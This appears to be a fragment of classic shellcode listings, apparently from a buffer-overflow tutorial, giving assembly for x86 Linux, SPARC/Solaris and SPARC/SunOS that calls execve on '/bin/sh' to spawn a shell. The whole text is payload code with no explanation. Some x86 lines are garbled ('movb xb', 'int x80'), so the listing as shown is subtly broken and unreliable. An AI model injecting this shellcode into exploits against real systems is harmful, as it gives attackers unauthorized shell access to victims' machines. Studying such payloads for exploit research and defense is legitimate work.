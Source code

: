 ```
jmp 0x1f
popl %esi
movl %esi,0x8(%esi)
xorl %eax,%eax
movb %eax,0x7(%esi)
movl %eax,0xc(%esi)
movb xb,%al
movl %esi,%ebx
leal 0x8(%esi),%ecx
leal 0xc(%esi),%edx
int x80
xorl %ebx,%ebx
movl %ebx,%eax
inc %eax
int x80
call -0x24
.string \"/bin/sh\"
```

SPARC/Solaris

```
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
ta 8
xor %o7, %o7, %o0
mov 1, %g1
ta 8
```

SPARC/SunOS

```
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
mov -0x1, %l5
ta %l5 + 1
xor %o7, %o7, %o0
mov 1, %g1
ta %l5 + 1
```
